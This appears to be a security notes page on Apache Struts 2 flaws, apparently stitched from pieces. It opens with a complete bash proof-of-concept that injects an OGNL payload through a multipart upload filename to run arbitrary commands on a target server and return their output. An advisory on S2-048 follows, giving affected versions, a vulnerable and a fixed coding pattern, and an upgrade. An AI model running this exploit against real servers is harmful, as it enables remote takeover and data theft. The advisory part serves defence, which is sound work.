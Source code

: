 ###### BASH POC

```
#!/bin/bash
 
url=$1
cmd=$2
shift
shift
 
boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")
 
printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```

---

#### S02-048

> Problem:
> 
> 在Struts 2.3.X系列的Showcase插件中演示Struts2整合Struts 1的插件中存在一处任意代码执行漏洞。当你的Web应用使用了Struts 2 Struts 1插件, 则可能导致Struts2执行由外部输入的恶意攻击代码。
> 
> Affected Software: 
> 
> Struts 2.3.x系列中启用了struts2-struts1-plugin插件的版本。
> 
> Solution:
> 
> 1
> 
> 开发者通过使用resource keys替代将原始消息直接传递给ActionMessage的方式。
> 
> 如下所示
> 
> `messages.add("msg", new ActionMessage("struts1.gangsterAdded", gform.getName()))`
> 
> 一定不要使用如下的方式
> 
> `messages.add("msg", new ActionMessage("Gangster " + gform.getName() + " was added"))`
> 
> 2
> 
> Upgrade to Apache Struts version 2.5.10.1
